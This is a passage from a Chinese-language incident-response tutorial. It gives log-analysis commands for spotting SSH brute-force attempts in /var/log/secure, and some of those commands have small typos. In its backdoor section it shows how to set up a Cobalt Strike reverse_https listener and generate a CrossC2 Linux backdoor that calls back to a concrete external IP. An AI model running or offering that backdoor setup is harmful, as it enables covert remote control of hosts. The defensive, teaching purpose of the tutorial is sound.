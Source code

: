 2、输出登录爆破的第一行和最后一行，确认爆破时间范围

```
grep "Failed password" /var/log/secure|head -1 grep "Failed password" /var/log/secure|tail -1 
```

3、进一步定位有哪些 IP 在爆破？

```
grep "Failed password" /var/log/secure|grep -E -o "(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[04][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][09]?)"|uniq -c | sort -nr 
```

4、爆破用户名字典都有哪些？

```
grep "Failed password" /var/log/secure|perl -e 'while($_=<>){ /for(.*?) from/; print "$1\n";}'|uniq -c|sort nr 
```

5、登录成功的日期、用户名、IP

```
grep "Accepted " /var/log/secure | awk '{print $1,$2,$3,$9,$11}' grep "Accepted " /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr | more
```

### （二）控制响应-后门木马（webshell、PC）

windows：默认配置测试 注：windows高版本网络信息获取不全（win2012及以上）

linux：借助 CrossC2 项目

```
netstat -ntulp 
```

https://github.com/gloxec/CrossC2 

https://github.com/darkr4y/geacon 

参考过程：http://www.adminxe.com/1287.html

1.项目上传至CS服务端目录，给予执行权限

2.配置监听器：监听器为windows/beacon_https/reverse_https 注：如果是阿里云记得端口放行，同时需要关闭linux默认防火墙

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhLyk1SqqGg43LfWQmYdImZ23vFogqY4BjhdGgMOnQI5TYib0LXsBt1Kw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

3.生成后门：

```
./genCrossC2.Linux 47.99.49.65 5566 null null Linux x64 C2 
```

通过网络监听工具及 windows 日志分析或执行记录查找后门问题

### （三）危害响应-病毒感染(勒索 WannaCry)-Windows

详细说明中毒表现及恢复指南
